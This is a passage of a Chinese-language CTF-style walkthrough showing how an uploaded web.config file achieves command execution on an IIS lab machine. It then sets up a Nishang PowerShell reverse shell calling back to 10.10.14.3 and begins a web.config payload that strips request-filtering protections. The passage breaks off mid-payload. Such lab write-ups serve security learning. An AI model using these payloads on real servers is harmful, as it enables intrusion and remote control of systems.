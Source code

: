 上面文件上传以后访问`http://10.10.10.93/uploadedfiles/web.config`成功打印`ipconfig`命令

```
Windows IP Configuration

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.10.93
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2

Tunnel adapter isatap.{27C3F487-28AC-4CE6-AE3A-1F23518EF7A7}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```

## 反弹shell

> PowerShell的反弹shell和Linux中的bash反弹shell有什么区别?
> 
> 1. 语法差异：
>    
>    PowerShell 使用**对象管道（Object Pipeline）来处理数据**，允许将对象传递给命令以及从命令中接收对象。这使得 PowerShell 可以直接处理和操作 .NET 对象。
Bash 则是**基于文本流**的，通常使用管道将文本传递给命令。它处理文本输入和输出，不支持直接操作对象。
> 2. 命令和函数：
PowerShell 提供了大量的命令和函数，可以直接处理对象、操作文件系统、管理进程等。它具有丰富的功能和扩展性。
Bash 也提供了丰富的命令和函数，但相较于 PowerShell，它更专注于文本处理和系统级操作。
> 3. 跨平台性：
PowerShell 最初是为 Windows 平台设计的，虽然在最近的版本中增加了对 Linux 和 macOS 的支持，但它的主要用户群体仍然是 Windows 用户。
Bash 是 Linux 和类 Unix 系统的标准 shell，几乎所有的 Linux 发行版都默认安装了它，因此它在跨平台方面更具优势。

**参考链接:[[Powershell反弹shell](https://www.cnblogs.com/-mo-/p/11487997.html)**]

*<u>Nishanghttps://github.com/samratashok/nishang是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。</u>*

首先，获取 Nishang 的 [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 的副本。然后在末尾添加一行以调用对我的回调。

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4242
```

把web.config编辑成以下payload

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
```